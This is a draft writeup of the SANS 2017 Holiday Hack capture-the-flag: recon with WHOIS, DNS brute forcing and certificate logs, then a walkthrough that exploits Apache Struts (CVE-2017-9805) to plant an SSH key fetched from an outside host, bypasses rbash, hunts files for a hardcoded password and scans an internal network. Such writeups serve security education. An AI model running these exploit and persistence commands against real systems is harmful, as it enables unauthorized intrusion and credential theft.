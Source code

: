 #+TITLE: SANS 2017 Holiday Hack Writeup
#+AUTHOR: Vlad Grigorescu
#+EMAIL: vladg@illinois.edu
#+OPTIONS: timestamp:nil num:nil ^:nil toc:2 exports:both
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://www.pirilampo.org/styles/readtheorg/css/htmlize.css"/>
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="http://www.pirilampo.org/styles/readtheorg/css/readtheorg.css"/>
#+HTML_HEAD: <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.1.3/jquery.min.js"></script>
#+HTML_HEAD: <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.4/js/bootstrap.min.js"></script>
#+HTML_HEAD: <script type="text/javascript" src="js/readtheorg.js"></script>
#+HTML_HEAD: <style>#content{max-width:1200px;}</style>

* TODO
**  Overall approach
Each question should have:
*** A reference solution 
*** An overview of the thought process and what we tried that led to that solution, *and what we tried that didn't work*
*** Some other ways that we could've solved it
*** A peak behind the curtain of how the challenge worked, and perhaps a better defense that would've mitigated the attack
** Introduction
- [ ] Write a paragraph about our approach to the challenge, what everyone did, etc.
- [ ] Write a paragraph about the outline and presentation of the report ("We first lay out the solutions, then we show some other ways that we solved it, then we try to peak behind the curtain of how the challenges worked...")
** Answers
- [ ] Write short answers to each of the questions
- [ ] Link to where they can read more about the answers (maybe link to the "reference solution," and the "going further solution" for each)
** Pre-contest Reconnaissance
- [ ] Update the recon to talk about the changes that they made (hid some stuff in DNS, etc.)
** Terminals and Servers
- [ ] Reference solutions for solving each challenge
- [ ] Thought process for solving each challenge
- [ ] Alternative ways to solve each challenge
  - [ ] EWA Server: Downloaded all the e-mails
  - [ ] EMI Server: Got Meterpreter working
  - [ ] Terminals: Reverse the binaries?
- [ ] Discuss how each challenge was setup
  - [ ] EMI Server: Discuss the alabaster_snowball.py Python script
- [ ] AsciiCinema solution to each terminal?
** Easter Eggs
- [ ] List references and any hidden data we found
  - [ ] The example Hash
  - [ ] nppd robots.txt
  - [ ] LDAP passwords
** Snowball Game
- [ ] Videos to solving each level?
- [ ] Hacking the game?

* Introduction
We're the Security team at the National Center for Supercomputing
Applications, and we worked together on yet another fun SANS Holiday
Hack, like we did last year. Over the past year, we've been surprised
to see how many skills and tricks from the 2016 Holiday Hack we used
for our jobs.

We've done "red-team" work such as code reviews and pen-tests, where
we encountered insufficient PHP input sanitization, development files
being left in production, and services being unintentionally
exposed. Our role in these instances is to find these issues before
someone malicious does, and to help and educate our users to
understand and prevent this from reoccuring. Other work we do is in
architecting defenses and mitigations. How do we secure systems and
services, while being as transparent as possible to end-users?

As we do red-team work, it's useful to try to think like a defender:
"How would *I* have secured this system, and are there any ways around
that?" Similarly, as we do blue-team work, we need to know the methods
and tools that an attacker would use. With that in mind, our approach
to this year's Holiday Hack is to solve the challenges, but also to
try to offer some insight into Alabaster Snowball's defenses. Where
possible, we offer some alternatives that he could've used which
would've been more secure.
* Answers
* Pre-contest Reconnaissance
#+CAPTION: SANS Holiday Hack Challenge December 5th Update
[[./images/sans_holiday_hack_preview.png]]

On December 5th, the SANS Holiday Hack Challenge was updated to tell
us that the 2017 Hack was coming soon, and encouraging us to catch up
on past challenges. The next day, we started doing just that. In
addition to reviewing previous challenges, we also began some
reconnaissance for the 2017 challenge.

Recon is a crucial step of any good penetration test, and is one that
often gets skipped in a "Capture the Flag" type of competition, since
most of the information is provided. Nevertheless, let's see what we
can find. The more information we have ahead of time, the better
prepared we'll be, and the less work we'll have to do during the
actual contest.

Much like how attackers will have indicators of compromise (IOCs)
which allow us to track and follow an individual attacker, the Counter
Hack team also does similar things every year, and will leave behind
some clues.

** Whois Searching
 For example, the 2016 contest made use of the domain
 www.northpolewonderland.com. We can look at publicly available WHOIS
 data for that domain:

 #+BEGIN_SRC sh
 whois northpolewonderland.com | grep Registrant
 #+END_SRC

 #+BEGIN_EXAMPLE
 Registrant Name: Edward Skoudis
 Registrant Organization: Counter Hack
 Registrant Street: 2402 Alexandra Court
 Registrant City: Howell
 Registrant State/Province: New Jersey
 Registrant Postal Code: 07731
 Registrant Country: US
 Registrant Phone: +1.7327511024
 Registrant Phone Ext:
 Registrant Fax: +1.7327511024
 Registrant Fax Ext:
 Registrant Email: edskoudis@yahoo.com
 #+END_EXAMPLE

 There are a few services that allow you to do a "reverse WHOIS"
 search, to search for domains by WHOIS data. For instance to search
 for other domains where "edskoudis@yahoo.com" shows up in the contact
 info: 

 | Domain Name                      | Creation Date | Registrar               |
 |----------------------------------+---------------+-------------------------|
 | northpolechristmastown.com       |    2017-10-19 | GODADDY.COM, LLC        |
 | 1hrctf.com                       |    2016-04-08 | GODADDY.COM, LLC        |
 | 1hrctf.org                       |    2016-04-08 | GODADDY.COM, LLC        |
 | cranbian.org                     |    2016-11-22 | GODADDY.COM, LLC        |
 | hackfestchallenge.com            |    2016-10-20 | GODADDY.COM, LLC        |
 | onehourctf.org                   |    2016-04-08 | GODADDY.COM, LLC        |
 | atnascorp.com                    |    2015-11-10 | GODADDY.COM, LLC        |
 | ginormouselectronicssupplier.com |    2015-12-09 | GODADDY.COM, LLC        |
 | holidayhackchallenge.com         |    2015-11-02 | GODADDY.COM, LLC        |
 | holidayhackchallenge.org         |    2015-11-02 | GODADDY.COM, LLC        |
 | digimeme.org                     |    2013-11-18 | GODADDY.COM, LLC        |
 | syn-pi.org                       |    2013-11-18 | GODADDY.COM, LLC        |
 | pseudovision.net                 |    2010-09-09 | GODADDY.COM, LLC        |
 | counterhack.net                  |    2001-06-22 | NETWORK SOLUTIONS, LLC. |
 | skoudis.com                      |    2001-06-22 | NETWORK SOLUTIONS, LLC. |
 | counterhack.com                  |    2000-05-30 | GODADDY.COM, LLC        |

 This isn't comprehensive, since northpolewonderland.com didn't show up
 in the results, but cranbian.org was another domain from 2016 that
 does show up.

 There are a couple of new entries since the 2016 contest, 1hrctf and
 northpolechristmastown.com. 1hrctf seems unrelated, but it's a good
 bet that northpolechristmastown.com will show up in the 2017
 challenge.

 At this point, we have to proceed with extreme caution. Since the
 contest hasn't started, nothing is in scope yet. Any further digging
 should be as unintrusive as possible.

** DNS Brute Forcing
 Now that we have a domain we're interested in, let's look at DNS:

 #+BEGIN_SRC sh
 dig ANY northpolechristmastown.com
 #+END_SRC

 #+BEGIN_EXAMPLE
 ;; ANSWER SECTION:
 northpolechristmastown.com. 5	IN	TXT	"v=spf1 include:_spf.google.com -all"
 northpolechristmastown.com. 5	IN	MX	30 ALT2.ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	MX	40 ASPMX2.GOOGLEMAIL.com.
 northpolechristmastown.com. 5	IN	MX	20 ALT1.ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	MX	50 ASPMX3.GOOGLEMAIL.com.
 northpolechristmastown.com. 5	IN	MX	10 ASPMX.L.GOOGLE.com.
 northpolechristmastown.com. 5	IN	SOA	ns53.domaincontrol.com. dns.jomax.net. 2017120112 28800 7200 604800 600
 northpolechristmastown.com. 5	IN	NS	ns54.domaincontrol.com.
 northpolechristmastown.com. 5	IN	NS	ns53.domaincontrol.com.
 #+END_EXAMPLE

 From this, we can tell that GMail provides the e-mail for the domain,
 and GoDaddy provides the DNS service. Of note, however, is that there
 are no A or AAAA records, so northpolechristmastown.com does not
 resolve to anything.

 Next, we'll try some Google dorking. Googling for
 site:northpolechristmastown.com reveals
 nppd.northpolechristmastown.com, which is a Sign In page for the
 North Pole Police Department. It looks like nppd uses Google OAuth
 for authentication, and most pages are forbidden with a regular GMail
 account.

 Checking a few other common URLs on nppd, we can find some resources
 that are available, including favicon.ico and robots.txt:
 #+BEGIN_SRC
 User-agent: hk-47
 Disallow: /
 Disallow: /needhelp
 Disallow: /infractions
 Disallow: /community
 Disallow: /about

 User-agent: threepio
 Sand-Crawler-delay: 421

 User-agent: artoo
 Sand-Crawler-delay: 2187
 #+END_SRC

#+CAPTION: North Pole Police Department Logo
[[./images/nppd_star.png]]

 Everything here but /infractions is forbidden. Looking at that page
 returns a list of infractions, such as "Unauthorized access to cookie
 jar" or "Computer infraction: Accessing siblings files without
 permission." We also see some interesting infractions that refer to
 previous Holiday Hacks:

 #+BEGIN_EXAMPLE
	 {
             "date": "2016-12-25T00:00:00",
             "name": "Dr. Who",
             "severity": 5.0,
             "status": "closed",
             "title": "Trying to ruin Christmas"
         },
	 {
             "date": "2015-12-25T00:00:00",
             "name": "Cindy Lou Who",
             "severity": 5.0,
             "status": "closed",
             "title": "Trying to ruin Christmas"
         }
     ],
     "query": "name:Who"
 #+END_EXAMPLE

 Going back to DNS< we can try to enumerate some hosts under the top
 level domain. FuzzDB has a nice list of common DNS name, and we can
 use an nmap script to try to query those:

 #+BEGIN_SRC sh
 $ nmap --script dns-brute --script-args dns-brute.domain=northpolechristmastown.com,dns-brute.threads=1,dns-brute.hostlist=fuzzdb/discovery/dns/dnsmapCommonSubdomains.txt
 #+END_SRC

 #+BEGIN_EXAMPLE
 Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-06 18:54 CST
 Stats: 0:00:06 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
 NSE Timing: About 0.00% done
 Pre-scan script results:
 | dns-brute:
 |   DNS Brute-force hostnames:
 |     intranet.northpolechristmastown.com - 35.196.239.128
 |     files.northpolechristmastown.com - 35.185.43.23
 |     dev.northpolechristmastown.com - 35.185.84.51
 |     admin.northpolechristmastown.com - 35.185.115.185
 |_    mail.northpolechristmastown.com - 35.185.115.185
 #+END_EXAMPLE

A couple of other lists resulted in the following hostnames as well:

#+BEGIN_EXAMPLE
|   DNS Brute-force hostnames:
|     emi.northpolechristmastown.com - 35.185.57.190
|_    ewa.northpolechristmastown.com - 35.185.115.185
#+END_EXAMPLE

** Certificate Transparency Logs

 Next, let's turn our attention to the holidayhackchallenge.com
 domain. Last year, there were some new hosts that appeared under this
 domain (e.g. quest2016.holidayhackchallenge.com). Brute-forcing this
 will likely not get us very far, so let's try a different approach:
 certificate transparency logs. Many certificate authorities maintain
 transparency systems, so that issued certificates can be publicly
 reviewd. Symantec, for instance, has a free tool that will search the
 logs of several certificate authorities:

#+CAPTION: Symantec Crypto Report for holidayhackchallenge.com
[[./images/recon_crypto_report.png]]

Searching for holidayhackchallenge.com reveals the following
certificates that don't look familiar:

 | Common Name                         | Subject Alternate Names (SANs) |             IP |
 |-------------------------------------+--------------------------------+----------------|
 | 2017.holidayhackchallenge.com       | 2017, puzzler2017              |  35.196.67.150 |
 | docker2017.holidayhackchallenge.com |                                | 35.190.163.207 |
 | chat.holidayhackchallenge.com       |                                |  35.196.73.180 |

** Monitoring

None of the 3 servers listed above are currently accessible on port 80
or 443 (HTTP and HTTPS). We setup some monitoring using a free online
service (uptimerobot.com). Every 5 minutes, it would try to connect to
HTTP and HTTPs on the 3 servers listed above. Once the systems become
available, it will text us and post a message to our Slack channel.

Once that happens, the hack is on, and we'll be ready to hit the
ground running.

** Recon Summary

We can use the following indicators to search any clues we're later provided with:

| Indicator                            | Type      | Source                 |
|--------------------------------------+-----------+------------------------|
| northpolechristmastown.com           | Domain    | Reverse WHOIS          |
| holidayhackchallenge.com             | Domain    | 2016 Hack              |
| nppd.northpolechristmastown.com      | FQDN      | Google Search          |
| intranet.northpolechristmastown.com  | FQDN      | DNS Brute Force        |
| files.northpolechristmastown.com     | FQDN      | DNS Brute Force        |
| dev.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| admin.northpolechristmastown.com     | FQDN      | DNS Brute Force        |
| mail.northpolechristmastown.com      | FQDN      | DNS Brute Force        |
| emi.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| ewa.northpolechristmastown.com       | FQDN      | DNS Brute Force        |
| 2017.holidayhackchallenge.com        | FQDN      | Cert Transparency      |
| puzzler2017.holidayhackchallenge.com | FQDN      | Cert SAN               |
| docker2017.holidayhackchallenge.com  | FQDN      | Cert Transparency      |
| chat.holidayhackchallenge.com        | FQDN      | Cert Transparency      |
| 35.185.43.23                         | IP        | DNS (files)            |
| 35.185.57.190                        | IP        | DNS (emi)              |
| 35.185.84.51                         | IP        | DNS (dev)              |
| 35.185.115.185                       | IP        | DNS (admin, mail, ewa) |
| 35.190.163.207                       | IP        | DNS (docker2017)       |
| 35.196.67.150                        | IP        | DNS (2017)             |
| 35.196.73.18                         | IP        | DNS (chat)             |
| 35.196.239.128                       | IP        | DNS (intranet)         |
| HK-47 (Star Wars Droid)              | Reference | nppd robots.txt        |
| Artoo (Star Wars Droid)              | Reference | nppd robots.txt        |
| Threepio (Star Wars Droid)           | Reference | nppd robots.txt        |
| Sand-Crawler (Star Wars Vehicle)     | Reference | nppd robots.txt        |
| North Pole Police Department         | Reference | nppd /infractions      |
| Cindy Lou Who (2015 Hack)            | Reference | nppd /infractions      |
| Dr. Who (2016 Hack)                  | Reference | nppd /infractions      |

* Let the Hack Begin!
** Gaining Access to L2S
The SAN cert showed it the was the same as dev.northpolechristmastown.com.

TODO: Justin - how did you figure out it was Struts?

Used the Python tool in the SANS blog post:

#+BEGIN_SRC sh
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'mkdir /home/alabaster_snowball/.ssh; cd /home/alabaster_snowball/.ssh; wget http://1.2.3.4/a.key -O authorized_keys; chmod 600 authorized_keys; chmod 700 .'
#+END_SRC

*** Finding the password for alabaster_snowball 

Login using ssh, but explicitly run bash, bypassing the rbash restriction

#+BEGIN_SRC sh
$ ssh alabaster_snowball@dev.northpolechristmastown.com -t bash
#+END_SRC

First, fix the shells path.  We can grab what a normal path looks like from /etc/profile:

#+BEGIN_SRC sh
alabaster_snowball@l2s:~$ grep PATH /etc/profile
  PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
  PATH="/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games"
export PATH
alabaster_snowball@l2s:~$ PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
#+END_SRC

Find all small files owned by alabaster_snowball on the main filesystem and search them for the string password.
Start small and double the filesize each time to keep the process fast.

#+BEGIN_SRC sh
alabaster_snowball@l2s:~$ find / -xdev -type f -user alabaster_snowball -size -1k 2>/dev/null |xargs grep passwor
alabaster_snowball@l2s:~$ find / -xdev -type f -user alabaster_snowball -size -2k 2>/dev/null |xargs grep passwor
alabaster_snowball@l2s:~$ find / -xdev -type f -user alabaster_snowball -size -4k 2>/dev/null |xargs grep passwor
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String password = "stream_unhappy_buy_loss";
#+END_SRC

We could have also searched for the username to find intersting files:

#+BEGIN_SRC sh
    $ time grep alabaster_snowball -r /opt/
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";

    real	0m0.355s
    user	0m0.300s
    sys	0m0.052s
#+END_SRC

* Using ripgrep

Ripgrep is a super fast grep replacement written in rust.
It does a better job at filtering binary files, so we can run this command that finishes in about a second:

#+BEGIN_SRC sh
    $ mkdir /tmp/.rg
    $ cd /tmp/.rg
    $ wget https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz
    $ tar xvzf ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz
    $ find / -type f -xdev -user alabaster_snowball 2>/dev/null | xargs ./ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class
    3:            final String username = "alabaster_snowball";
    4-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

If we didn't think to only look in our files, it only takes 4 seconds to search
the entire filesystem.  After ignoring proc and some debian package info, only
a few lines are output.

#+BEGIN_SRC sh
    $ time ./ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster / --no-messages |grep -v /proc|grep -v deb.debian.org
    /etc/crontab:#@reboot root /usr/bin/nohup /usr/bin/sudo -u alabaster_snowball /opt/apache-tomcat/start_tomcat.sh &
    /etc/subuid:alabaster_snowball:296608:65536
    /etc/passwd:alabaster_snowball:x:1003:1004:Alabaster Snowball,,,:/home/alabaster_snowball:/bin/rbash
    /etc/group:alabaster_snowball:x:1004:
    /etc/subgid:alabaster_snowball:296608:65536
    /etc/systemd/system/tomcat.service:User=alabaster_snowball
    /etc/systemd/system/tomcat.service:Group=alabaster_snowball
    /usr/share/dh-python/dist/cpython3_fallback:alabaster python3-alabaster
    /usr/share/dh-python/dist/cpython2_fallback:alabaster python-alabaster
    /usr/lib/google-cloud-sdk/platform/gsutil/third_party/pyasn1/doc/source/conf.py:# html_theme = 'alabaster'
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";

    real	0m4.095s
    user	0m1.864s
    sys	0m18.808s
#+END_SRC

Basic hostname enumeration:

#+BEGIN_SRC 
    $ nmap -sL 10.142.0.*|fgrep '('
    Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-18 02:20 UTC
    Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
    Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
    Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
    Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
    Nmap scan report for hhc17-smb-server.c.holidayhack2017.internal (10.142.0.7)
    Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
    Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
    Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
    Nmap done: 256 IP addresses (0 hosts up) scanned in 0.01 seconds
#+END_SRC

Even without scanning any ports, we can guess what hhc17-smb-server does!

#+BEGIN_SRC sh
ssh l2s | tee nmap.out
#+END_SRC

#+BEGIN_SRC 
Starting Nmap 7.40 ( https://nmap.org ) at 2017-12-15 02:26 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http     nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.10.3
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  ssl/http nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Issuer: commonName=Let's Encrypt Authority X3/organizationName=Let's Encrypt/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-29T12:54:54
| Not valid after:  2018-02-27T12:54:54
| MD5:   90b5 5b73 6e21 e00f 0247 b22d a1ec f953
|_SHA-1: c089 30bf cd61 3a55 ea8f f419 2542 b9b4 9823 8fb1
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
2222/tcp open  ssh      OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00021s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ac:cc:7c:b1:cb:56:0b:bc:cd:05:12:36:e7:24:ca (RSA)
|_  256 9f:4e:9a:ee:dc:ef:f4:4b:6d:1b:03:58:bb:5d:a2:87 (ECDSA)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp   open  http    nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/cookie.txt
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap    Dovecot imapd
|_imap-capabilities: OK ID IDLE LITERAL+ AUTH=PLAIN more have capabilities listed post-login LOGIN-REFERRALS Pre-login AUTH=LOGINA0001 ENABLE SASL-IR IMAP4rev1
2525/tcp open  smtp    Postfix smtpd
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
3000/tcp open  http    Node.js Express framework
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host:  mail.northpolechristmastown.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00017s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 33:fb:b7:35:b5:7a:72:6f:06:91:21:ff:e2:3e:86:79 (RSA)
|_  256 70:71:ea:71:cd:83:d8:47:29:ef:6f:69:f3:8a:ed:a2 (ECDSA)
80/tcp   open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-robots.txt: 1 disallowed entry 
|_/dev
|_http-server-header: nginx/1.10.3
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  open  ldap
| fingerprint-strings: 
|   LDAPBindReq: 
|     Version 2 not supported
|   LDAPSearchReq: 
|     supportedLDAPVersion1
|     namingContexts1
|     dc=com0/
|     supportedExtension1
|_    1.3.6.1.4.1.4203.1.11.10
8080/tcp open  http    Werkzeug httpd 0.12.2 (Python 2.7.13)
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
| http-robots.txt: 1 disallowed entry 
|_/dev
|_http-server-header: Werkzeug/0.12.2 Python/2.7.13
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port389-TCP:V=7.40%I=7%D=12/15%Time=5A3332D9%P=x86_64-pc-linux-gnu%r(LD
SF:APSearchReq,83,"0s\x02\x01\x07dn\x04\x000j0\x1b\x04\x14supportedLDAPVer
SF:sion1\x03\x04\x0130\x1a\x04\x0enamingContexts1\x08\x04\x06dc=com0/\x04\
SF:x12supportedExtension1\x19\x04\x171\.3\.6\.1\.4\.1\.4203\.1\.11\.10\x0c
SF:\x02\x01\x07e\x07\n\x01\0\x04\0\x04\0")%r(LDAPBindReq,25,"0#\x02\x01\x0
SF:1a\x1e\n\x01\x02\x04\0\x04\x17Version\x202\x20not\x20supported");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00081s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-smb-server
| Issuer: commonName=hhc17-smb-server
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-06T13:46:55
| Not valid after:  2018-05-08T13:46:55
| MD5:   092f 018a 083a b87a 8186 ecac da4e 09e2
|_SHA-1: 0a0d f4e6 765f 1818 cd32 4bf2 5212 e8ca ef51 5c38
|_ssl-date: 2017-12-15T02:27:40+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http    nginx 1.10.3
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3
|_http-title: Toys List
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00089s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Issuer: commonName=hhc17-elf-manufacturing
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-11-23T20:53:55
| Not valid after:  2018-05-25T20:53:55
| MD5:   a711 f240 0c9e a8cd 3be4 81fa fa16 f15a
|_SHA-1: 5728 6c5d 2ec0 6657 629b f9f4 72aa 0b3d 12d4 b3a5
|_ssl-date: 2017-12-15T02:27:40+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

NSE: Script Post-scanning.
Initiating NSE at 02:27
Completed NSE at 02:27, 0.00s elapsed
Initiating NSE at 02:27
